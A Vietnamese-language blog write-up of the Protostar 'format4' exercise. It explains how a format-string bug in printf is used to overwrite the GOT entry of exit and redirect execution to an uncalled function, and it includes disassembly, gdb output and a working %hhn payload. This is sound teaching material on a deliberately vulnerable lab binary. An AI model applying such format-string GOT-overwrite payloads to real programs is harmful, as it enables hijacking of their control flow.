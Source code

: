 ```yaml
---
layout: post
title: format4
---
```


Trong bài này, chúng ta sẽ nghiên cứu cách dùng `printf` và `%n` để ghi giá trị địa chỉ nhằm mục tiêu điều hướng chương trình.
Sau đây là source code và asm code của chương trình format4.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x080484b4 <hello+0>:   push   ebp
0x080484b5 <hello+1>:   mov    ebp,esp
0x080484b7 <hello+3>:   sub    esp,0x18
0x080484ba <hello+6>:   mov    DWORD PTR [esp],0x80485f0
0x080484c1 <hello+13>:  call   0x80483dc <puts@plt>
0x080484c6 <hello+18>:  mov    DWORD PTR [esp],0x1
0x080484cd <hello+25>:  call   0x80483bc <_exit@plt>
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
0x08048514 <main+0>:    push   ebp
0x08048515 <main+1>:    mov    ebp,esp
0x08048517 <main+3>:    and    esp,0xfffffff0
0x0804851a <main+6>:    call   0x80484d2 <vuln>
0x0804851f <main+11>:   mov    esp,ebp
0x08048521 <main+13>:   pop    ebp
0x08048522 <main+14>:   ret
```

Mục tiêu cụ thể là tìm cách để gọi hàm `hello`, vốn dĩ không hề được gọi trong flow của chương trình format4.
Hàm `hello` có địa chỉ là `0x080484b4`.

Để điều hướng được chương trình, ta sẽ cần ghi một lệnh `jmp` hoặc `call` đến địa chỉ của `hello`.
Như đã biết, để ghi được lệnh, hàm `printf` sẽ cần được gọi trước. Như vậy, điều hướng có thể xảy ra sau `printf`.
Ấn tượng ban đầu khi đọc đoạn asm code của chương trình là có lệnh `call` đến hàm `exit@plt` ngay sau `printf`.
Chúng ta có thể nghĩ đến giải pháp thay thế lệnh này bằng một lệnh gọi đến `hello`.
Cách làm được nghĩ đến là ghi vào địa chỉ của lệnh cũ tại `0x0804850f`.
Tuy nhiên điều này không thực hiện được vì đây là vùng cấm ghi.
Cụ thể, chúng ta có thể sử dụng gdb để kiểm tra giả thiết này.

```bash
(gdb) maintenance info sections
```
<pre class="memory">
Exec file:
    `/opt/protostar/bin/format4', file type elf32-i386.
    0x8048114->0x8048127 at 0x00000114: .interp ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048128->0x8048148 at 0x00000128: .note.ABI-tag ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048148->0x804816c at 0x00000148: .note.gnu.build-id ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804816c->0x80481a8 at 0x0000016c: .hash ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x80481a8->0x80481cc at 0x000001a8: .gnu.hash ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x80481cc->0x804826c at 0x000001cc: .dynsym ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804826c->0x80482cf at 0x0000026c: .dynstr ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x80482d0->0x80482e4 at 0x000002d0: .gnu.version ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x80482e4->0x8048304 at 0x000002e4: .gnu.version_r ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048304->0x8048314 at 0x00000304: .rel.dyn ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048314->0x804834c at 0x00000314: .rel.plt ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804834c->0x804837c at 0x0000034c: .init ALLOC LOAD READONLY CODE HAS_CONTENTS
    0x804837c->0x80483fc at 0x0000037c: .plt ALLOC LOAD READONLY CODE HAS_CONTENTS
    <span style="color:aqua">0x8048400->0x80485cc at 0x00000400: .text ALLOC LOAD READONLY CODE HAS_CONTENTS</span>
    0x80485cc->0x80485e8 at 0x000005cc: .fini ALLOC LOAD READONLY CODE HAS_CONTENTS
    0x80485e8->0x8048613 at 0x000005e8: .rodata ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048614->0x8048618 at 0x00000614: .eh_frame ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8049618->0x8049620 at 0x00000618: .ctors ALLOC LOAD DATA HAS_CONTENTS
    0x8049620->0x8049628 at 0x00000620: .dtors ALLOC LOAD DATA HAS_CONTENTS
    0x8049628->0x804962c at 0x00000628: .jcr ALLOC LOAD DATA HAS_CONTENTS
    0x804962c->0x80496fc at 0x0000062c: .dynamic ALLOC LOAD DATA HAS_CONTENTS
    0x80496fc->0x8049700 at 0x000006fc: .got ALLOC LOAD DATA HAS_CONTENTS
    0x8049700->0x8049728 at 0x00000700: .got.plt ALLOC LOAD DATA HAS_CONTENTS
    0x8049728->0x8049730 at 0x00000728: .data ALLOC LOAD DATA HAS_CONTENTS
    0x8049730->0x8049740 at 0x00000730: .bss ALLOC
    0x0000->0x0b40 at 0x00000730: .stab READONLY HAS_CONTENTS
    0x0000->0x3bf3 at 0x00001270: .stabstr READONLY HAS_CONTENTS
    0x0000->0x0039 at 0x00004e63: .comment READONLY HAS_CONTENTS
</pre>

Địa chỉ `0x0804850f` nằm trong vùng `.text`, tức là vùng lệnh chính của chương trình.
Vùng này có tag là `READONLY` nên không thể ghi vào được.

Như vậy ta sẽ cần tìm một vị trí khác nằm trong `call exit@plt`.
Để kiểm tra xem có thể làm gì với hàm này, ta sẽ kiểm tra asm code.

```asm
0x080483ec <exit@plt+0>:        jmp    DWORD PTR ds:0x8049724
0x080483f2 <exit@plt+6>:        push   0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
```

Trong `call exit@plt`, ta có ngay 1 lệnh `jmp`.
Lệnh này sẽ nhảy đến địa chỉ được lưu tại `0x08049724`. `0x08049724` là 1 vùng trong _GLOBAL_OFFSET_TABLE.
Rất may mắn, vùng này cho phép ghi (không có tag `READONLY`).

<pre class="memory">
    <span style="color:aqua">0x8049700->0x8049728 at 0x00000700: .got.plt ALLOC LOAD DATA HAS_CONTENTS</span>
</pre>

Như vậy, chúng ta đã xác định được địa chỉ cần ghi và cả giá trị.
Việc tiếp theo là dựng lên formatted string từ những thông tin này.
Làm tương tự như các bài trước. ta tìm được tham số cần lưu cho `%n` của `printf` là tham số thứ 4.
Thực ra, vì giá trị cũ và mới tại `0x08049724` là `0x080483f2` và `0x080484b4`.
Phần khác nhau chỉ là 2 byte đầu, tại địa chỉ `0x08049724` và `0x08049725` nên ta sẽ chỉ cần thay đổi 2 byte này là đủ.
Chúng ta sẽ dùng cách lưu từng byte ở bài trước với `%hhn` thay vì `%n`.
Formatted string là gồm 4 byte địa chỉ cần ghi thứ nhất, 4 byte địa chỉ cần ghi thứ hai, và các giá trị cần in thêm.
Để thuận tiện, chúng ta sẽ ghi vào địa chỉ thứ hai trước, và giá trị là `0x84`.
Qua tính toán, ta cần in thêm 124 ký tự (`0x84` tương đương 132 ký tự tổng, trừ đi 8 ký tự cho địa chỉ cần ghi).
Sau đó cần thêm 48 ký tự để đạt được giá trị `0xb4`.

Tổng hợp lại, formatted string sẽ như sau.

```bash
python -c 'print "\x24\x97\x04\x08" + "\x25\x97\x04\x08" + "%124x" + "%5$hhn" + "%48x" + "%4$hhn"'
```
<pre class="memory">
$%                                                                                                                         200                                        b7fd8420
<span style="color:aqua">code execution redirected! you win</span>
</pre>

Mục tiêu đã hoàn thành!
## Ref
```bash
user@protostar:~$ format4 <<< $(python -c 'print "\x24\x97\x04\x08" + "\x25\x97\x04\x08" + "%124x" + "%5$hhn" + "%48x" + "%4$hhn"')
$%                                                                                                                         200                                        b7fd8420
code execution redirected! you win
```
